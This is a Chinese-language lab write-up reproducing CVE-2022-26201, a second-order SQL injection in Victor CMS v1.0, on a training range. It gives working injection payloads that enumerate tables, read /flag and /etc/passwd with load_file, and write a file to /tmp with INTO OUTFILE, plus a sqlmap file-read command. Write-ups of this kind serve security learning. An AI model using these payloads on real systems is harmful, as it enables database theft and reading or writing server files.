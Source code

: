 ```yaml
---
title: CVE-2022-26201【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

Victor CMS v1.0 存在二次注入漏洞

## 2. 漏洞分析

[CVE-2022-26201.pdf](https://github.com/truonghuuphuc/CVE/blob/main/CVE-2022-26201.pdf)，文件内容就是下面两张图片。

![CVE-2022-26201_Page1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310051833762.png)

![CVE-2022-26201_Page2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310051834696.png)

## 3. 漏洞复现

**漏洞点测试**

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310051746746.png)

手动注入示例

```sql
'),(concat((select table_name from information_schema.tables where table_schema='php_cms' limit 0,1)))-- -
```

手动注入没找到 flag 表，尝试直接从根目录读取 flag 

```sql
'),(concat((select load_file('/flag'))))-- -
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310051829045.png)

也可以用sqlmap跑，但特别慢【时间盲注】

```shell
python sqlmap.py -r post.txt -p cat_title --batch --file-read "/flag"
```

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310051831715.png)

## 4. SQL注入读写文件

SQL命令来读取文件

```
' and 1=2 union all select load_file('/etc/passwd')--+
```

接着尝试在/tmp目录写入文件

```
' and 1=2 union all select 'blablalba_bug_bounty_program' into outfile '/tmp/blablabla'--+
```
